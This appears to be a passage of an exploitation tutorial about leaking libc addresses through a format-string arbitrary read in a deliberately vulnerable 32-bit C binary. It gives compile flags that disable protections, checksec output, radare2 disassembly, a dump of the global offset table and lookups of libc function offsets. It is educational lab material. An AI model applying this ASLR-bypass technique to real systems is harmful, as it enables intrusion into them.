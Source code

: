 Compiling:
```
$ gcc -m32 -fno-stack-protector -o to_system fmt_arbitrary_read_to_system.c  
$ checksec --file to_system 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	FORTIFIED FORTIFY-able
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		6	
```

When printf is already called (first four hex bytes in output), the address changes to the actual resolved location of printf, so by printing the global offset table, we leak the location of libc.
```
┌ (fcn) sym.imp.printf 6
 |||||||   0x080483b0      ff250ca00408   jmp dword [reloc.printf_12] ; 0x804a00c
┌ (fcn) sym.imp.fflush 6
└  ||||||   0x080483c0      ff2510a00408   jmp dword [reloc.fflush_16] ; 0x804a010
┌ (fcn) sym.imp.gets 6
└   |||||   0x080483d0      ff2514a00408   jmp dword [reloc.gets_20]   ; 0x804a014
┌ (fcn) sym.imp.fgets 6
└    ||||   0x080483e0      ff2518a00408   jmp dword [reloc.fgets_24]  ; 0x804a018
┌ (fcn) sym.imp.puts 6
└     |||   0x080483f0      ff251ca00408   jmp dword [reloc.puts_28]   ; 0x804a01c
┌ (fcn) loc.imp.__gmon_start__ 6
└      ||   0x08048400      ff2520a00408   jmp dword [reloc.__gmon_start___32] ; 0x804a020
<snip>
[0x08048350]> px 128 @ 0x0804a00c
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x0804a00c  80d2 64b7 6683 0408 7683 0408 8683 0408  ..d.f...v.......
0x0804a01c  9099 61b7 a683 0408 0000 0000 0000 0000  ..a.............
0x0804a02c  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x0804a03c  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x0804a04c  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x0804a05c  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x0804a06c  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x0804a07c  0000 0000 0000 0000 0000 0000 0000 0000  ................
[0x08048350]> dm
<snip>
sys 1.7M 0xb7600000 - 0xb77a8000 s -r-x /lib/i386-linux-gnu/libc-2.19.so /lib/i386-linux-gnu/libc-2.19.so
```

So we now the global offset table with function pointers starts at 0x0804a00c. ASLR does not change this! What does change is the actual location of libc functions (well libc in general). So let's get the offset into libc that our functions are at.
```
$ r2 -A /lib/i386-linux-gnu/libc.so.6 
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
 -- Have you seen the latest radare2 TV spot?
[0x00019be0]> afl~gets
0x0002cff0   10 204  -> 198  sym.catgets
0x000408e0   14 284  -> 278  sym.getsubopt
0x00063b20   25 374  -> 320  sym.fgets
0x00064cd0   25 390  -> 336  sym.gets
0x00069660   11 163  -> 157  sym.fgets_unlocked
<snip>
[0x00019be0]> afl~fflush
0x00063810   18 56720 -> 207  sym.fflush
0x00069400    3 56   -> 82   sym.fflush_unlocked
[0x00019be0]> afl~puts
0x000640a0   26 349  -> 289  sym.fputs
```